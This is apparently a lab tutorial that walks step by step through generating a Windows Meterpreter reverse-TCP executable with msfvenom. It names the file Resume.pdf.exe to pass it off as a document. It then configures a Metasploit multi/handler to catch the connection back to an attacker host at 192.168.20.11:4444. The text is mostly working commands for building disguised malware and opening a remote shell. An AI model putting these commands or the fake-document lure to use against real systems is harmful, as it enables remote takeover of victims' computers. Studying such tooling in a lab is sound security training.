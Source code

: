 Now it's time to create a basic piece of malware using **Msfvenom** with a **Meterpreter reverse shell** as the payload.  
(To see a list of available payloads, run `msfvenom -l payloads`.)

In this example, I’ll use the following payload:  
`windows/x64/meterpreter_reverse_tcp`

Run this command:

```sh
msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.20.11 lport=4444 -f exe -o Resume.pdf.exe
```

This command generates a piece of malware using Meterpreter’s reverse TCP payload, which is configured to connect back to our attacker machine.  
The connection is defined by the `LHOST` (in my case, `192.168.20.11`) and the `LPORT` (the default for Meterpreter is `4444`, but you can customize it).

The output will be a `.exe` file, as specified, and the file will be named `Resume.pdf.exe`.

![](./assets/generating-reverse-tcp-malware.png)

To check the file details just run `file Resume.pdf.exe`.

Now let's open a handler to listen in on the port that we configured in the malware, to do that open up Metasploit by typing `msfconsole`. Once in the console, we'll use the multi-handler by running `use exploit/multi/handler`, after that we should be in the exploit itself.
Type `options` to see possible configurations:

![](./assets/multihandler-options.png)

Notice that the payload options are now set to `generic/shell_reverse_tcp`. Wee need to change this payload to be the same payload that we used configuring our Msfvenom malware., to do that run `set payload windows/x64/meterpreter_reverse_tcp`. Now we need to configure the lhost of the attacker machine, for that run `set lhost 192.168.20.11`.
To check this changes, just run `options` again.
